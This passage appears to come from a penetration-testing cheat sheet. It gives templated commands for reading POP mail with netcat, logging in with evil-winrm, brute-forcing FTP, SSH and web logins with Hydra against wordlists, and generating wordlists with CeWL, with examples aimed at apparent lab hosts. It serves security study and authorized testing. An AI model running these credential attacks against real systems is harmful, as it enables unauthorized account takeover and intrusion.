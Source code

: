 ### POP read emails
```
nc -nvC <IP> <PORT>
USER <USERNAME>
PASS <PASSWORD>
LIST
RETR 1 
RETR 2
```

### MSRPC login
```
evil-winrm -u <USER> -p <PASS> -i <IP>
```

## Password Attacks
https://github.com/danielmiessler/SecLists
#### Hydra bruteforce FTP
```
hydra -L <USERNAMEFILE> -P <PASSWORDFILE> -t 24 ftp://<IP>:<PORT>
```

#### Hydra bruteforce SSH
```
hydra -L <USERNAMEFILE> -P <PASSWORDFILE> -t 24 ssh://<IP>:<PORT>
```

#### Hydra bruteforce HTTP login
Login using Burp or check in developers tools to check the request for the required information! You need to get the username/password/login parameter and the error message!

https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/
```
hydra -L <USERNAMEFILE> -P <PASSWORDFILE> <IP> http-post-form "<LOGINPAGE>:<COOKIES FROM BURP AND SET ^USER^ AND ^PASS^>:<ERROR MESSAGE FAILED LOGIN>"

#EXAMPLE hydra -L usernames.txt -P passwords.txt 192.168.2.62 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login Failed"

#EXAMPLE hydra -l admin -P /opt/SecLists/Passwords/xato-net-10-million-passwords-100.txt 10.10.175.0 http-post-form '/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=u8hdjDohYmqfI8o0z7Cev4b1u0jLmv9dNA9NS95wDsZeMYw6zBFeyhiLx1QuOsZ%2FXV%2Fo%2BrCdXSC4Y7%2FueaRnmboaQQ9KZQWLME84zysowmYTAW8Kea1%2Bp7phoEwMiICbLwPPteDEYl7z6nobm8x1Mb2hMDiTpDJhracgmTh%2BJwP1Rqqt&__EVENTVALIDATION=QJmkftZnDEcQIPsstxYKnQBDsulZLsB0kmrbMa4BPzAc%2FMEDChrOmztni5OWBx83r2xGNndCAgw6wJ%2F%2FoAzYtZEcyRWC%2FaPyUR5iWSO0V8%2FIodobow1OxiuoD9uZVnVO8tcQZr3NWYjFcOVxYg5WAWvPyezvfcBk2oxUdZwsutPATiKB&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:failed'
```

#### CEWL - Create a wordlist 
```
cewl <URL> -m <MIN CHARS> -w <FILE>.txt
```
